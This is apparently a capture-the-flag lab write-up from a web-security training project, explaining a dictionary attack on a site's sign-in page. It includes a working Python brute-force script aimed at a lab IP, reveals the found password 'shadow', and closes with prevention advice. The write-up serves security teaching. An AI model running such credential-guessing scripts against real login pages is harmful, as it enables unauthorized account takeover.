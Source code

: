 # Bruteforce Attack (here Dictionary Attack)

## Description
A brute force attack involves systematically trying all possible combinations of passwords until the correct one is found. Here we used a specific attack called Dictionary Attack. This attack uses a list of common passwords to try to gain unauthorized access to a system.

## BornToSec
First, its good to know that usually, every system has a superuser account named `root` or `admin` with a default password. So I tried to log in with the username `root` and decided to use a dictionary attack to find the password.

Here is the algorithm I used:
```python
import requests
from termcolor import colored

url = "http://10.11.249.222/?page=signin"
username = "root"
password_file = "/Users/nesta/Desktop/42/darkly/Bruteforce/Ressources/passwords.txt"
login_failed_string = "images/WrongAnswer.gif"


def cracking(username,url):
	for password in passwords:
		password = password.strip()
		print(colored(('Trying: ' + password), 'red'))
		response = requests.get(url, params={'username':username,'password':password,'Login':'Login'})
		if login_failed_string in response.content.decode():
			pass
		else:
			print(colored(('[+] Found Username: ==> ' + username), 'green'))
			print(colored(('[+] Found Password: ==> ' + password), 'green'))
			exit()



print('[*] Bruteforcing Against ' + url)
print('[*] Using Username: ' + username)
print('[*] Using Password File: ' + password_file)

with open(password_file, 'r') as passwords:
	cracking(username,url)

print('[!!] Password Not In List')
```

Then you just need to go on the website and try to log in with the username `root` and the password that has been found with the algorithm here `shadow` to get the flag.

## How to prevent it
- Enforce Strong Password Policies: Require complex passwords with a mix of uppercase, lowercase, numbers, and special characters.
- Implement Account Lockout Mechanisms: Lock accounts after a certain number of failed login attempts (e.g., 3-5 attempts).
- Monitor and Block Suspicious IPs: Use tools to detect and block IP addresses that exhibit suspicious behavior.
- Avoid Default Usernames: Rename default administrative accounts like “root” to something less predictable.